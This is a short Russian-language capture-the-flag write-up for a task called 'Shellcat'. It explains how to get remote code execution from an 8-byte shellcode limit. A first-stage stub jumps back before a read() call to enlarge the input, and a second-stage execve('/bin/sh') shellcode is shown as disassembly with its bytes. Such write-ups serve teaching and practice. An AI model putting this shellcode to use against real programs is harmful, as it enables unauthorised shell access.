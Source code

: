# Shellcat

Для решения этого задания мы должны с помощью шелл-кода размером в 8 байт получить удалённое исполнение кода. Решить таск "в лоб" не получится: 8 байт недостаточно для вызова системного вызова execve или вызова функции system с аргументом "/bin/sh". Поэтому нам нужно как-то расширить вводимый шелл-код. 

## Первый шелл-код

Это можно сделать достаточно просто: мы "прыгаем" на исполняемый код вызывающей функции непосредственно перед вызовом функции read, но уже после установки размера считываемого ввода, чтобы установить свой размер.

```
0:  58                      pop    rax
1:  80 f2 fa                xor    dl,0xfa
4:  34 77                   xor    al,0x77
6:  ff e0                   jmp    rax 
```

## Второй шелл-код

После выполненного шага осталось только дорешать задание: подготовить регистры и вызвать системный вызов execve.

```
0:  6a 3b                   push   0x3b
2:  58                      pop    rax
3:  48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f6e69622f
a:  73 68 00
d:  57                      push   rdi
e:  48 89 e7                mov    rdi,rsp
11: 48 31 f6                xor    rsi,rsi
14: 48 31 d2                xor    rdx,rdx
17: 0f 05                   syscall 
```
